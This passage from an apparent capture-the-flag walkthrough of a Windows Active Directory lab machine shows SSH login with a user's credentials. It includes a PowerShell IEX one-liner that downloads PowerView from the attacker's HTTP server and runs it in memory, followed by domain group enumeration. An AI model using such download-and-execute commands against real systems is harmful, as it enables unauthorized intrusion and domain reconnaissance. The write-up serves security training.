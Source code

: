 With SSH open I gain access using tom's credentials

```
┌──[Thu Nov 10 09:30:59 AM CST 2022]-[TheScriptKid]-[/opt/winreconpack]
├──[wlan0: 192.168.1.153]-[tun0: 10.10.16.2]-[ip: 10.129.47.91]
└──# ssh tom@$ip                                                                                                                                            1 ⨯
tom@10.129.47.91's password: 

Microsoft Windows [Version 6.3.9600]                                                                                            
(c) 2013 Microsoft Corporation. All rights reserved.                                                                            

tom@REEL C:\Users\tom>powershell                                                                                                
Windows PowerShell                                                                                                              
Copyright (C) 2014 Microsoft Corporation. All rights reserved.                                                                  

PS C:\Users\tom>
```

Before enumerating the active directory domain I will load PowerView, a powershell tool, in memory.

```
┌──[Tue Nov  8 10:47:39 PM CST 2022]-[TheScriptKid]-[/tmp]
├──[wlan0: 192.168.1.153]-[tun0: 10.10.16.2]-[ip: 10.129.15.19]
└──# python3 -m http.server 80 -d /opt/winreconpack
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

{% code overflow="wrap" %}
```
PS C:\Users\tom> IEX (New-Object Net.Webclient).downloadstring("http://10.10.16.2/powerview.ps1")
```
{% endcode %}

```
┌──[Tue Nov  8 10:47:39 PM CST 2022]-[TheScriptKid]-[/tmp]
├──[wlan0: 192.168.1.153]-[tun0: 10.10.16.2]-[ip: 10.129.15.19]
└──# python3 -m http.server 80 -d /opt/winreconpack
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.15.19 - - [08/Nov/2022 22:49:14] "GET /powerview.ps1 HTTP/1.1" 200 -

```

I begin checking for non-default groups with one being of interest is the backup\_admins group

```
PS C:\Users\tom> get-netgroup                                                                                                   
...                                                                                                       
Backup_Admins
AppLocket_Test                                                                                                                 
SharePoint_Admins                                                                                                               
DR_Site                                                                                                                         
SQL_Admins                                                                                                                      
HelpDesk_Admins                                                                                                                 
```